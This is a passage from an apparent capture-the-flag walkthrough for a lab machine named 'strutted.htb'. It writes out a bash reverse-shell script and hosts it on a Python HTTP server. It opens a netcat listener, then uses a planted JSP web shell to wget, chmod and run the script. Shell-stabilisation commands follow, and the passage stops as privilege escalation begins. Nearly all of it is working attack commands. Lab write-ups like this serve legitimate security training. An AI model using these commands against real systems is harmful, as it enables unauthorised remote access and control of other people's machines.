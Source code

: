 ```
echo -ne '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"' > shell.sh
```


Now, start a python server:

```
python3 -m http.server
```

Next, start a netcat listener on the specified port:

```
nc -lvnp PORT
```

We can now use the following to download the file:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=wget%20http%3A%2F%2FIP%3A8000%2Fshell.sh%20-O%20%2Ftmp%2Fshell.sh
```


It will download the file from our python server, then, we can give it permissions and execute it:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=chmod%20777%20%2Ftmp%2Fshell.sh
```

```
http://strutted.htb/shell.jsp?action=cmd&cmd=/tmp/shell.sh
```


If we check our listener, we can notice we got our connection:

![](cybersecurity/images/Pasted%2520image%252020250325143143.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step would be stabilizing our shell:

1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](cybersecurity/images/Pasted%2520image%252020250325143331.png)

Let's start by checking the users:
